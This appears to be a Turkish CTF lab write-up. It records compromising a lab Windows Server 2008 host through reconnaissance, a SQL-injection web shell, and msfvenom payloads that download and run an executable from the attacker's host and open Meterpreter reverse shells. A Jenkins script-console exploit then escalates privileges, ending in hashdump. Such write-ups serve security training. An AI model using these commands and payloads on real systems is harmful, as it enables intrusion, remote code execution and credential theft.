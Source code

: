 ## CTF

- 192.168.1.128 SYSTEM haklarında Meterpreter oturumu elde ediniz.
--edemedi--

		=> nmap -A 192.168.1.128 -vv

		PORT     STATE SERVICE      REASON          VERSION
		21/tcp   open  ftp          syn-ack ttl 128 Microsoft ftpd
		| ftp-anon: Anonymous FTP login allowed (FTP code 230)
		|_Can't get directory listing: TIMEOUT
		81/tcp   open  http         syn-ack ttl 128 Microsoft IIS httpd 7.5
		| http-methods: 
		|   Supported Methods: OPTIONS TRACE GET HEAD POST
		|_  Potentially risky methods: TRACE
		|_http-server-header: Microsoft-IIS/7.5
		|_http-title: IIS7
		445/tcp  open  microsoft-ds syn-ack ttl 128 Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds
		8181/tcp open  http         syn-ack ttl 128 Apache httpd 2.4.23 ((Win32) PHP/5.6.28)
		| http-methods: 
		|_  Supported Methods: GET HEAD POST OPTIONS
		|_http-server-header: Apache/2.4.23 (Win32) PHP/5.6.28
		|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
		MAC Address: 00:0C:29:0B:18:42 (VMware)
		| smb-os-discovery: 
		|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
		|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
		|   Computer name: WIN-MQAMOOSDNEE
		|   NetBIOS computer name: WIN-MQAMOOSDNEE\x00
		|   Workgroup: WORKGROUP\x00
		|_  System time: 2017-02-14T13:58:46+02:00

		=> dirb http://192.168.1.128:8181
		B> 192.168.1.128:8181/site/
		B> simple dynamic website sql injection site:exploit-db.com

- Websitesine SQL injection ile shell atıyoruz. Bunun için önce dizini bulmamız gerek. HEDEF/site/info.php de _SERVER["DOCUMENT_ROOT"] değişkeni bize verir veya HEDEF/site/page.php şeklinde uygulamaya hata verdirterek dizini öğrenebiliriz.

			B> HEDEF/shell.php?cmd=whoami

- Meterpreter shell'i oluşturmamız gerek.

		=> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<OUR_IP> LPORT=445 -f exe -o /var/www/html/halil.exe
		=> msfvenom -p php/download_exec --payload-options
		=> msfvenom -p php/download_exec URL=<OUR_IP>/halil.exe -f raw -o upload.txt
		
- upload.txt'yi SQL sorgusunu bozmayacak bir sekilde tek satır haline getirmemiz gerekir. Kodu base64'e dönüştüreceğiz. Ardından php'nin eval fonksiyonunu kullanacağız.

		=> msfvenom -p php/download_exec URL=<OUR_IP>/halil.exe -f raw -o upload.txt -e php/base64
- upload.txt'nin başına ve sonuna php taglarını ekle.

			=> msfconsole
			M> use /exploit/multi/handler
			M> set PAYLOAD windows/x64/meterpreter/reverse_tcp
			M> ayarlari yap ve calistir
			B> <HEDEF>payload
			B> <HEDEF>siber.php

**- Hak yükseltme aşaması:** Bu kısımda makine patch'li olduğu için kullanılabilir bir exploiti yok. Aşağıdaki yöntem izlenerek yetki yükseltilebilir.

	Mtr> shell
	S> netstat -ano

- Local'de 8080'i dinleyen bir port var. Eğer local interface'i dinleyen bir process varsa bu process büyük ihtimalle AUTH/SYS (*nix sistemlerde root) olarak çalışıyordur. Port forwarding kullanarak local interface'i kendimize bağlantı isteği atarak görebiliriz.

		Mtr> portfwd add -l 8080 -p 8080 -r 192.168.1.128
		=> nmap -n -sV -Pn 127.0.0.1 -p 8080 -vv 	(Kendi ağımıza yolladığımız isteğe tarama yapıyoruz.)
		B> 127.0.0.1:8080
		Mtr> background
		M> search jenkins
		M> use exploit/multi/http/jenkins_script_console
		M> set RHOST 127.0.0.1
		M> set RPORT 8080
		M> set TARGETURI /
		M> set PAYLOAD windows/meterpreter/reverse_tcp
		M> ayarlari yap ve calistir.
		Mtr> sysinfo
		Mtr> getuid
		Mtr> ps -S winlo
		Mtr> migrate WINLOGON_PID
		Mtr> hashdump
		
